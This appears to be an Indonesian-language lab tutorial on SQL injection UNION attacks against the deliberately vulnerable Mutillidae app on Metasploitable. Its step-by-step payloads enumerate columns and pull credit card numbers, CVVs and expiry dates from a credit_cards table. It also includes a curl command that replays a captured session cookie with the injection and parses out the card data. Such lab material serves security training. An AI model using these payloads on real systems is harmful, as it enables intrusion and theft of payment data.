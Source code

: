 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
\! cat /tmp/CCN.csv
```


* **Step 3** : Pada bagian connection, klik tombol _Settings_. Setelah mengklik tombol _Settings_, maka akan muncul kotak dialog _Connection Settings_. Atur _Connection Settings_ sesuai gambar.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_06_35.png)

* **Step 4** : Buka burpsuite, dengan cara pilih Applications --&gt; Web Application Analysis --&gt; burpsuite  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_10_12.png)

* **Step 5** : Pada saat burpsuite telah dibuka, maka akan ditanyakan tentang project. Klik tombol Next   
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_24_51.png)

* **Step 6** : Setelah menekan tombol next, maka selanjutnya ada memilih konfigurasi burp. Pilih radio button User Burp defaults dan Klik Start Burp  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_26_28.png)

* **Step 7** : Setelah menekan tombol Start Burp, maka aplikasi Burp Suite sudah berjalan. Langkah selanjutnya adalah memastikan apakah port proxy pada Burp Suite adalah 8080, dengan cara memilih menu Proxy --&gt; Options  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_31_58.png)

* **Step 8** : Setelah memastikan port porxy 8080, maka selanjutnya adalah mematikan Intercept pada menu Proxy --&gt; Intercept.  
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_16_34_07.png)

### \# SQL Injection \(Union Example \#1\)

* **Step 1** : Buka halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Masukkan syntax sql `' union select null --` pada text box name untuk perbocaan pertama melakukan sql injection dan tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_40_50.png)

* **Step 4** : Setelah menekan tombol _View Account Details_, maka akan terjadi error query karena jumlah kolom dan kolom union berbeda.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_44_12.png)

* **Step 5** : Lakukan **Step 2** kembali. Setelah melakukan **Step 2**, lakukan kembali **Step 3** dengan menambah `null` pada syntax query sql injection. Contoh penambahan `null` pada query sql injection `' union select null,null --`.

* **Step 6** :  Lakukan **Step 5** sampai jumlah kolom union dan kolom table accounts sama. `' union select null,null,null,null,null --` adalah syntax query hasil percobaan **Step 5**. Dapat disimpulkan jumlah kolom pada table accounts adalah 5.

* **Step 7** : Masukkan query sql injection `' union select null,null,null,null,null --` pada textbox name. Dan kemudian tekan tombol _View Account Details_.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_56_23.png)

* **Step 8** : Setelah menekan tombol _View Account Details_, maka hasilnya akan menunjukan kolom yang ditampilkan pada web.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_58_23.png)

* **Step 9** : Lakukan **Step 7** kembali dengan mengganti `null` menjadi angka dengan query sql injection sebagai berikut `' union select 1,2,3,4,5 --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_03_20.png)

* **Step 10** : Dapat dilihat dari hasil percobaan **Step 9** bahwa kolom username diisi oleh nomer 2, password diisi oleh nomer 3 dan Signature diisi oleh nomer 4.

  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_04_19.png)

* **Step 11** : Langkah selanjutnya adalah melakukan serangan sql injection dengan menggabungkan dengan tabel yang sudah diketahui selain accounts. Contohnya menggunakan tabel credit\_cards, sehingga query sql injectionnya menjadi `' union select ccid,ccnumber,ccv,expiration,null from credit_cards --`  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_10_49.png)

* **Step 12** : Maka hasilnya, bagian username diisi oleh ccnnumber, password diisi oleh ccv, dan signature diisi oleh expiration.   
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_12_04.png)

### \# Curl Action

* **Step 1** : Buka Burp Suite dan cari log hasil sniffing pada **step 12** pada bagian SQL Injection \(Union Example \#1\), kemudian catat/copas raw header request.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_17_58.png)

* **Step 2** : Copas Cookie pada hasil header dan masukkan pada file crack\_cookies.txt  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_21_02.png)

* **Step 3** : Jalankan perintah   
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username=" | awk 'BEGIN{FS="<"}{for (i=1; i<=NF; i++) print $i}' | awk -F\> '{print $2}'`   
  dan lihat hasilnya. Hasilnya adalah data hasil sql injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_23_28.png)

### \# Perl Parser

* **Step 1** : Download lesson8.pl pada link berikut [http://www.computersecuritystudent.com/SECURITY\_TOOLS/MUTILLIDAE/MUTILLIDAE\_2511/lesson8/lesson8.pl.TXT](/http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson8/lesson8.pl.TXT)
* **Step 2** : Ganti nama lesson8.pl.TXT menjadi lesson8.pl dan ubah permission menjadi `rwx------` atau 700.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_39_29.png)
* **Step 3** : Jalankan perintah 
  `curl -b crack_cookies.txt -c crack_cookies.txt --user-agent "Mozilla/4.0 (compatible; MSIE 5.01; Windows NT 5.0)" --data "page=user-info.php&username=%27+union+select+ccid%2Cccnumber%2Cccv%2Cexpiration%2Cnull+from+credit_cards+--+&password=&user-info-php-submit-button=View+Account+Details" --location "http://10.151.36.64/mutillidae/index.php" | grep -i "Username="  > lesson8.txt`
* **Step 4** : Setelah menjalankan perintah tersebut maka hasil perintah pada **Step 3** disimpan pada file lesson8.txt.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_42_37.png)
* **Step 5** : Jalankan file lesson8.pl dan lihat hasilnya.
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_21_43_37.png)



